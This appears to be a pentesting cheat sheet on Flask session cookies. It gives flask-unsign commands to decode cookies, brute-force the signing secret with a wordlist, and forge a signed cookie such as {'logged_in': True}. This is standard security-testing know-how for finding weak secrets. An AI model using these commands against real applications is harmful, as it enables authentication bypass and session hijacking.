 # Flask Session Cookies

---

## Install `flask-unsign` with Wordlist

```bash
pip3 install flask-unsign[wordlist]
```

---

## Decode and Inspect the JSON Contents of a Flask Session Cookie (No Secret Required)

```bash
flask-unsign --decode --cookie $FLASK_SESSION_COOKIE
```

---

## Decode and Inspect the JSON Contents of a Flask Session Cookie from a URL (No Secret Required)

```bash
flask-unsign --decode --server $URL
```

---

## Brute Force Flask Session Cookie's Secret

```bash
flask-unsign --unsign --cookie $FLASK_SESSION_COOKIE [--wordlist $PATH_TO_WORDLIST]
```

- There is a `--wordlist` default as long as `flask-unsign` was installed with the accompanying wordlist

---

## Sign a Flask Session Cookie (Requires Secret)

```bash
flask-unsign --sign --cookie "$COOKIE_CONTENTS" --secret $SECRET
```

- `$COOKIE_CONTENTS` is the string representation of a Python dictionary

Example:

```bash
$ flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME'
eyJsb2dnZWRfaW4iOnRydWV9.XDuW-g.cPCkFmmeB7qNIcN-ReiN72r0hvU
```

---

## References

[flask-unsign](https://pypi.org/project/flask-unsign/)
